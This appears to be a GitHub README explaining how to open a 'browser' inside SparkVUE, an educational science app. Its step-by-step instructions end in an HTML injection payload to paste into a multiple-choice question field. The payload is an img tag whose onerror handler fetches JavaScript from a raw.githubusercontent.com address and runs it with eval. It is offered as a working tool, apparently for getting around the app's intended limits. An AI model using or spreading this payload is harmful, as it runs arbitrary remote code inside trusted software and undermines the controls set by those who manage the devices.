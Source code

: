 # Browser
A browser for sparkvue
Instructions:
1. Open SparkVUE from your app launcher
2. Click "Build New Experiment"
3. Click the full grey box (or the split ones, it doesn't really matter)
4. Click the paper with the checkmarks, and click "Add an Assessment"
5. Choose "Multiple Choice", and paste this in the "Questions" box:
```
<img src=# onerror="fetch('https://raw.githubusercontent.com/cam0studios/browser/main/main.js').then(e => e.text()).then(e => eval(e))">
```
For easy future use:
1. Click "save" and go to the hamburger menu
2. Hit "Save As", choose a name
3. Next time you open up SparkVUE, click "Open Saved Experiment" and click that file
